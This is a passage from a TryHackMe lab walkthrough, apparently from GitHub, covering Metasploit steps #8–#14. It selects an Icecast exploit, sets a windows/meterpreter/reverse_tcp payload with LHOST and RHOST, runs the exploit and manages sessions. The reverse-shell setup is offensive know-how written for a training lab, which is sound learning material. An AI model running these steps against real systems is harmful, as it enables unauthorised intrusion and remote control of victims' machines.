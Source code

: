 ```
#
```

### **#8 Now type the command 'use NUMBER_FROM_PREVIOUS_QUESTION'. This is the short way to use modules returned by search results.**

```
Question Done
```

### **#9 Next, let's set the payload using this command 'set PAYLOAD windows/meterpreter/reverse_tcp'. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command 'set LHOST YOUR_IP_ON_TRYHACKME'. You might have to check your IP using the command 'ip addr', it will likely be your tun0 interface.**

```
Question Done
```

### **#10 Let's go ahead and return to our previous exploit, run the command `use icecast` to select it again.**

```
Question Done
```

### **#11 One last step before we can run our exploit. Run the command 'set RHOST BOX_IP' to tell Metasploit which target to attack.**

```
Question Done
```

### **#12 Once you're set those variables correctly, run the exploit now via either the command 'exploit' or the command 'run -j' to run this as a job.**

```
Question Done
```

### **#13 Once we've started this, we can check all of the jobs running on the system by running the command `jobs`**

```
Question Done
```

### **#14 After we've established our connection in the next task, we can list all of our sessions using the command `sessions`. Similarly, we can interact with a target session using the command `sessions -i SESSION_NUMBER`**
